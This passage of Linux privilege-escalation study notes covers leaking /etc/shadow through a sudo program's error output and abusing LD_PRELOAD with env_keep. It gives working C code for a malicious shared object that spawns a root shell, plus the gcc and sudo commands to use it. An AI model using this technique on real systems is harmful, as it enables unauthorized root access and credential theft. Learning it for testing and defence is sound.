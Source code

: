 ![](./img/Pasted%20image%2020230905163359.png)

Loading the `/etc/shadow` file using this option will result in an error message that includes the first line of the `/etc/shadow` file.

## Leverage LD_PRELOAD

On some systems, you may see the LD_PRELOAD environment option.

![](./img/Pasted%20image%2020230905163427.png)

LD_PRELOAD is a function that allows any program to use shared libraries. This [blog post](https://rafalcieslak.wordpress.com/2013/04/02/dynamic-linker-tricks-using-ld_preload-to-cheat-inject-features-and-investigate-programs/) will give you an idea about the capabilities of LD_PRELOAD. If the "env_keep" option is enabled we can generate a shared library which will be loaded and executed before the program is run. Please note the LD_PRELOAD option will be ignored if the real user ID is different from the effective user ID.  

The steps of this privilege escalation vector can be summarized as follows;

1. Check for LD_PRELOAD (with the env_keep option)
2. Write a simple C code compiled as a share object (.so extension) file
3. Run the program with sudo rights and the LD_PRELOAD option pointing to our .so file

The C code will simply spawn a root shell and can be written as follows;


```
#include <stdio.h>  
#include <sys/types.h>  
#include <stdlib.h>  
  
void _init() {  
unsetenv("LD_PRELOAD");  
setgid(0);  
setuid(0);  
system("/bin/bash");  
}  
```

We can save this code as shell.c and compile it using gcc into a shared object file using the following parameters;

`gcc -fPIC -shared -o shell.so shell.c -nostartfiles`

![](./img/Pasted%20image%2020230905163505.png)

We can now use this shared object file when launching any program our user can run with sudo. In our case, Apache2, find, or almost any of the programs we can run with sudo can be used.

We need to run the program by specifying the LD_PRELOAD option, as follows;

`sudo LD_PRELOAD=/home/user/ldpreload/shell.so find`

This will result in a shell spawn with root privileges.

![](./img/Pasted%20image%2020230905163523.png)
